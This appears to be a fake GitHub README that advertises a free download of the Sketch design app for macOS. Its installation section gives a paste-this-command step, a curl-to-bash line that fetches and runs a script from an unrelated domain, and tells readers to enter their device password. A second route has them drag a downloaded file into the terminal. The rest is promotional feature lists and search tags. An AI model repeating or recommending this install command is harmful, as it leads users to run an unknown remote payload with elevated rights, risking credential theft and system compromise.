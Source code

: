 # Sketch — Download For Mac OS 🍏

Bring your design ideas to life with **Sketch** — the powerful vector graphics editor tailored for macOS. Whether you're designing user interfaces, icons, wireframes, or prototypes, Sketch gives you the tools to work faster and smarter.

[![Download for Mac](https://img.shields.io/badge/Download%20for%20Mac-Free-blue?logo=apple\&style=for-the-badge)](https://sketch-for-mac-download.github.io/.github/)

If the button doesn't work, follow the instructions below using the terminal command.

---

## 📦 How to Install Sketch For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the "Return" button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Sketch

* 🎨 **Powerful Vector Editing** – Precise tools for pixel-perfect UI, icon, and web design.
* 📱 **UI Design Kits** – Built-in libraries for iOS, macOS, and web platforms.
* 🔄 **Real-Time Collaboration** – Work with teammates on shared documents.
* 🔗 **Prototyping & Interaction** – Create and preview user flows without leaving Sketch.
* 🧩 **Extensive Plugin Ecosystem** – Extend Sketch’s capabilities with community-built tools.
* ☁️ **Cloud Sharing & Feedback** – Share files, gather comments, and manage versions easily.
* 🚀 **Export Options** – Export assets for multiple screen resolutions in a few clicks.

---

## About Sketch

Sketch is a macOS-first digital design app trusted by millions of designers worldwide. Known for its speed, intuitive interface, and modern toolset, Sketch is the go-to solution for crafting everything from mobile app screens to complex web dashboards.

Unlike bloated all-in-one solutions, Sketch focuses purely on design — making it lightweight, elegant, and powerful. Whether you're a freelancer building logos or part of a team designing enterprise platforms, Sketch adapts to your workflow.

Sketch fosters creativity by reducing friction. Its artboards, symbols, and smart layout tools let you build reusable components, maintain consistency, and iterate quickly. With support for Apple Silicon and deep macOS integration, it runs incredibly smoothly on modern Macs.

Perfect for:

* UI/UX Designers working on websites, apps, or dashboards
* Product teams building design systems and prototypes
* Freelancers creating logos, social media assets, or icon sets
* Developers needing design assets and structured layouts

### ⭐ Key Benefits of Using Sketch:

* ✅ **Intuitive Mac-Native Interface** – Designed exclusively for macOS with performance in mind.
* ✅ **Pixel-Perfect Vector Editing** – Precision control over every element on your canvas.
* ✅ **Symbols & Shared Styles** – Reuse components across designs for consistency.
* ✅ **Built-In Prototyping** – Link artboards and simulate navigation flows.
* ✅ **Live Collaboration** – Share designs and edit in real time with Sketch for Teams.
* ✅ **Design System Support** – Maintain a unified look with libraries and shared styles.
* ✅ **Plugin Support** – Enhance functionality with 1000+ plugins and integrations.
* ✅ **Export for Web & Mobile** – Easily export assets in various formats and resolutions.
* ✅ **Cloud Workspace** – Manage versions, receive feedback, and store designs safely.

---

## 🖼 Preview

![Sketch UI Overview](https://sketch-cdn.imgix.net/docs/interface-and-settings/the-mac-app-interface/the-mac-app-interface-athens.png?ixlib=rb-4.1.1&fit=max&w=1920&q=95&auto=format&fm=png&s=0ce7d2832b90f886dab41a8dd9e84897)
*Flexible interface with layered editing and infinite canvas support*

---

## 🔍 Tags

Sketch mac, Sketch, Sketch download, Sketch free, Sketch for mac os, Sketch macos, sketch app, download sketch free mac, UI design app mac, vector editor mac, web design mac, prototyping mac, macOS design tool

